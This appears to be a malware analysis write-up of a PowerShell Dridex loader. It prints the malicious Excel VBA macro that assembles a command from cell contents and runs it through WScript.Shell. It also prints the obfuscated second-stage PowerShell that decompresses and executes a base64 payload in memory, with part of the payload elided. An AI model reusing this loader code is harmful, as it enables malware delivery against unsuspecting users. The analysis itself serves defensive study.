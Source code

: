## Quick analysis on Powershell Dridex Loader
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector an maldoc which use a macro. This the automatic execution of the print of the informations (printed_Layout) for executing the first stager. This parse the content of the cells in keeping the last characters of each cell parsed. Once this done, this executes by a common shell call.</h6>

```vb
Private Sub View_Click()
    Debug.Print "print"
End Sub

Private Sub printed_Layout()
    toprint
End Sub

Function id(m As Variant)
    id = Right(m, 1) 
End Function

Function toprint()
    On Error Resume Next
    v = Range("i93:i424").Value
    h = Range("m102:m458").Value
    For Each e In v
        s = s & id(e)
    Next
    For Each e In h
        d = d & id(e)
    Next
    MsgBox prompt:=" ", Title:=CreateObject("WScript.Shell").Exec(s & Cells(109, 3) & d).StdOut.ReadAll(0): Application.Wait DateAdd("s", 5, Now): ActiveWorkbook.Close False
End Function
```

<h6>The second stager executed begins by creating an alias for the call of the new object and execute command. On a second time, this uses the deflatestream method for decompress the data in memory (final layer).</h6>

```csharp
rundll32 -s shell32.dll , ,ShellExec_RunDLL "pOwErSHElL" "&('nal') ('obj') ('New-Object') -F;
&('nal') ('exec') ('iex') -F;

&('exec')( .('obj') ('Io.sTREaMreader')(( &('obj') ('iO.compressiOn.DEfLATeSTREAm')([syStEm.io.memOrystreAM] [coNvert]::FRomBAse64strINg('JVZZz6s4Ev0ro9ZIt1uZETuEh3lgC1tYQ9 [...] 2lIX3242zS96+//g8='),[sYstEm.io.cOmpREssiON.coMprESsionmode]::decOmprESs )) ,[TexT.ENcoDIng]::utf8) ).ReAdtoenD( );
```
